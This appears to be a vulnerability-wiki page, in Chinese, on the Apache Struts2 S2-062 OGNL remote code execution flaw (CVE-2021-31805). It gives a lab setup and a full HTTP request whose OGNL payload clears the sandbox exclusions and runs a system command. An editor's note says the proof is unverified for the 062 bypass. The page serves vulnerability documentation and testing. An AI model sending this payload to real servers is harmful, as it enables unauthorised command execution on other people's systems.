


# Apache Struts2 S2-062 远程代码执行漏洞 CVE-2021-31805

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：标签强制OGNL且值可控，Tomcat/BeanMap/FreeMarker链；实验旧2.5.25
- 证据范围：用2.5.25镜像及与241完全相同S2-061payload，只证明旧环境旧链，不能独立验证062在旧补丁后绕过。

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 应换或补2.5.26–2.5.29相关受影响测试与新绕过机制证据，不能靠同旧PoC确证062
- 环境入口index.action请求却POST /，需明确路由对应
- HTTP代码块标php不准确
- 缺2.5.30修复及危险标签代码
- 清空排除集合有进程状态副作用；同061正文应建立关联而非虚增复现证据

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

该漏洞由于对 CVE-2020-17530 的修复不完整造成的，CVE-2020-17530 漏洞是由于 Struts2 会对某些标签属性 (比如 id) 的属性值进行二次表达式解析，因此当这些标签属性中使用了 `%{x}` 且 其中 x 的值用户可控时，用户再传入一个 `%{payload}` 即可造成 OGNL 表达式执行。在 CVE-2021-31805 漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的 OGNL 表达式执行，导致远程代码执行。

## 漏洞影响

```
Struts 2.0.0 - Struts 2.5.29
```

## 环境搭建

docker-compose.yml

```
version: '2'
services:
 struts2:
   image: vulhub/struts2:2.5.25
   ports:
    - "8080:8080"
```

环境启动后，访问 `http://your-ip:8080/index.action` 查看到首页。




## 漏洞复现

发送请求包

```http
POST / HTTP/1.1
Host: your-ip:8080
Content-Length: 829
Origin: http://your-ip:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1OyBby784sBXbcK9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: */*
Referer: http://your-ip:8080/
Accept-Encoding: gzip, deflate, br
Accept-Language: en

------WebKitFormBoundary1OyBby784sBXbcK9
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundary1OyBby784sBXbcK9--
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
